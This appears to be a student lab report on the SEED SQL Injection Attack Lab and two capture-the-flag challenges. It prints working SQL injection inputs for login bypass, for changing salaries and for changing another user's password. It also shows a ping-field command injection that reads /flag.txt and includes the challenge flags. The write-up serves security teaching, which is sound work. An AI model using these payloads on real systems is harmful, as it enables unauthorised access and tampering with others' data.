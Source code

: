 # Trabalho Realizado na Semana 8 e 9

## CTF

### Desafio 1

This is a simple SQL injection attack. With the following input we could easily login as admin:

```
username: admin'-- 
password: a
```

Flag:
```
flag{3970fbb4af4d7e800b6104bb768fd072}
```

### Desafio 2

The PING tool has a vulnerability. It can be used to run multiple system commands, if they are separated by `;`. With this in mind, we can try to use the `cat` command to get the content of the flag file which is in the root directory. With the following input, we can successfully print the flag: `8.8.8.8;cat /flag.txt`.

Flag:
```
flag{3e0d6f00000e611a9c15aeb018dad2d4}
```

---

## SQL Injection Attack Lab

### Task 1

Using the command `SELECT * FROM credential WHERE Name = 'Alice';` we get Alice information.

### Task 2

#### 2.A

With the following input we can successfully login as admin:

```
username = admin' #
password = 
```

#### 2.B

Using the following command we get the same output:

```
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password='
```

#### 2.3

`$conn->query($sql)` only performs one SQL statement.

### Task 3

#### 3.A

First we need to login as alice. To do so, input `Alice'#` in the username.

After logging in, we can go to the edit profile page, and put the following input in any of the fields, for example, in the nickname field:

```
Alice', salary = '500000
```

This will change Alice's nickname and will change her salary to 500000.

#### 3.B

To change another persons salary, one could use the following input in any of the fields:

```
', salary = 1 where name='Boby'#
```

This will change Boby's salary to 1.

### 3.C

We can change someone's password by using the following input:

```
Phone Number = ' where name = 'Ryan'#
Password = teste
```

This changes Ryan's password to `teste`.